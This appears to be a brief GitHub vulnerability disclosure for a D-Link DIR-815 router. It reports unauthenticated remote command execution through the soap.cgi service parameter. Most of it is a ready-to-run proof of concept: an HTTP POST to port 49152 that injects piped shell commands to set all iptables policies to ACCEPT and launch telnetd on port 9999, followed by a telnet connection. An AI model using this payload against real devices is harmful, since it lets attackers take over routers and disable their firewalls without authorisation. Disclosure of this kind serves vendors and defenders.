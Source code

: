 # dir-815
Exploit Author: 1327638470@qq.com

Vendor: D-Link

Firmware: dir815_v1.01SSb08.bin

I found unauthenticated remote code execution vulnerability in soapcgi_main function of cgibin binary.

On the /soap.cgi HTTP POST message on 49152 port, with the service GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2018-6530&CVE-2018-20114.

![image](https://github.com/WhereisRain/dir-815/blob/main/somecode.jpg)

With | string, the device can be exploited, too.

# poc
nc 192.168.0.1 49152
<br>POST /soap.cgi?service=|iptables -P INPUT ACCEPT|iptables -P FORWARD ACCEPT|iptables -P OUTPUT ACCEPT|iptables -t nat -P PREROUTING ACCEPT|iptables -t nat -P OUTPUT ACCEPT|iptables -t nat -P POSTROUTING ACCEPT|telnetd -p 9999| HTTP/1.1
<br>Host: 192.168.0.1:49152
<br>Accept-Encoding: identity
<br>Content-Length: 16
<br>SOAPAction: "whatever-serviceType#whatever-action"
<br>Content-Type: text/xml

whatever content...

telnet 192.168.0.1 9999
